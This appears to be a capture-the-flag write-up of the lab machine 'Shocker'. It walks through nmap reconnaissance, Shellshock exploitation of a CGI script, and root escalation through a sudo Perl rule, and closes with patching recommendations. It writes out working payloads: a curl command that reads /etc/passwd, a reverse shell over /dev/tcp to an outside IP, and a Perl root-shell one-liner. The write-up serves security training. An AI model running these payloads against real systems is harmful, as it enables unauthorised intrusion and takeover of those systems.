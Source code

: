 ![](images/image0.png)

# Shocker CGI Exploitation & Privilege Escalation Walkthrough

This professional report details the complete exploitation of the **Shocker** target machine.  
It outlines the identification and exploitation of a vulnerable CGI script affected by **Shellshock (CVE-2014-6271)**, followed by privilege escalation to root through misconfigured sudo permissions.

---

## 1. Initial Reconnaissance

We started with a full Nmap port scan to identify open services on the host `10.129.34.42`:

```bash
nmap -p- -Pn 10.129.34.42 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.34.42 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.34.42 -v --script vuln -oN nmap_vuln.txt
```

![](images/image1.png)

The results revealed an **HTTP service**, suggesting a web application vulnerable to command injection or CGI-based exploits.

---

## 2. Web Enumeration & Discovery

While subdomain enumeration yielded no results, **Dirsearch** identified a `/cgi-bin/` directory — a known vector for legacy CGI vulnerabilities.

![](images/image7.png)

Within this directory, we found a file named **user.sh**.

![](images/image4.png)

Using `curl`, we confirmed that this script executed system commands related to uptime reporting, implying potential command execution.

![](images/image9.png)

---

## 3. Vulnerability Identification — Shellshock (CVE-2014-6271)

Given the Bash-based CGI script, we suspected **Shellshock**, a critical vulnerability in Bash that allows arbitrary command execution through environment variable injection.

We reviewed the official reference:  
🔗 [https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

![](images/image3.png)

To test the vulnerability, we used a proof-of-concept payload:

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://shocker.htb/cgi-bin/user.sh
```

![](images/image8.png)

The response confirmed successful code execution, proving the target was vulnerable to **Shellshock**.

---

## 4. Gaining Reverse Shell Access

We replaced the command payload with a reverse shell to obtain remote access:

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'sh -i >& /dev/tcp/10.10.15.30/4444 0>&1'" http://shocker.htb/cgi-bin/user.sh
```

![](images/image5.png)

The connection succeeded, granting an interactive shell under the **shelly** user account.

![](images/image10.png)

The **user flag** was found in `/home/shelly/user.txt`.

---

## 5. Privilege Escalation — Perl Misconfiguration

Running `sudo -l` revealed that the **shelly** user could execute **Perl** as root without requiring a password.

![](images/image6.png)

We exploited this using a one-liner to spawn a root shell:

```bash
sudo perl -e 'exec "/bin/sh";'
```

This granted **root-level access**, and we retrieved the **root flag** from `/root/root.txt`.

![](images/image2.png)

---

## 6. Conclusion

This assessment demonstrates how a vulnerable CGI script combined with improper sudo permissions leads to a full system compromise.

### Key Findings:
- Unpatched Bash interpreter allowed exploitation via **Shellshock (CVE-2014-6271)**.  
- Poor web server hardening exposed a vulnerable CGI endpoint.  
- Misconfigured `sudo` privileges allowed arbitrary code execution through Perl.

### Security Recommendations:
- Disable legacy CGI support in Apache and remove outdated scripts.  
- Patch Bash to mitigate CVE-2014-6271 and related Shellshock vulnerabilities.  
- Implement strict input validation and sanitize all CGI variables.  
- Restrict `sudo` privileges and avoid granting interpreter-level root access.  
- Conduct periodic vulnerability scans and configuration reviews.

---
